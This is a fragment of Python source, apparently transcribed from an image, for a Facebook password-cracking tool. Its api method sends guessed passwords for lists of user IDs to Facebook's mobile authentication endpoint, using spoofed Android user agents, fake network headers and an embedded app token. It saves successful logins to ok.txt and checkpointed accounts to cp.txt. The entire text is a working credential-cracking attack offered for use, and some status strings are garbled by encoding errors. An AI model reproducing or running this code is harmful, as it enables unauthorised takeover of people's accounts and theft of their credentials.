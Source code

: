 
	def api(self, uid, pwx):
		ua = random.choice([
			"Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z007;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]", 
			"Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36[FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]"
		])
		sys.stdout.write(
			"\r\r %s\033[0;93m[SHUVOé¦ƒã†éˆ¥å¶æªªé””å»¬ : \033[0;97m %s/%s -> \033[0;92m [OKé¦ƒæ§:%s ]- \033[0;93m[CPé¦ƒæ¨‹:%s ]"%(B,self.loop, len(self.id), len(self.ok), len(self.cp))
		); sys.stdout.flush()
		for pw in pwx:
			pw = pw.lower()
			ses = requests.Session()
			headers = {
				"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), 
				"x-fb-sim-hni": str(random.randint(20000, 40000)), 
				"x-fb-net-hni": str(random.randint(20000, 40000)), 
				"x-fb-connection-quality": "EXCELLENT",
				"x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA",
				"user-agent": ua, 
				"content-type": "application/x-www-form-urlencoded", 
				"x-fb-http-engine": "Liger"
			}
			response = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(uid)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=headers) 
			if "session_key" in response.text and "EAAA" in response.text:
				print("\r \033[0;92m[SHUVO-OKé¦ƒæ§] %s|%s\033[0;97m         "%(uid, pw))
				self.ok.append("%s|%s"%(uid, pw))
				open("ok.txt","a").write(" OK] %s|%s\n"%(uid, pw))
				break
			elif "www.facebook.com" in response.json()["error_msg"]:
				print("\r \033[0;93m[CPé¦ƒæ¨‹] %s|%s\033[0;97m         "%(uid, pw))
				self.cp.append("%s|%s"%(uid, pw))
				open("cp.txt","a").write(" CP] %s|%s\n"%(uid, pw))
				break
			else:
				continue

		self.loop +=1


try:Main()
except Exception as e:exit(str(e))#80FF00

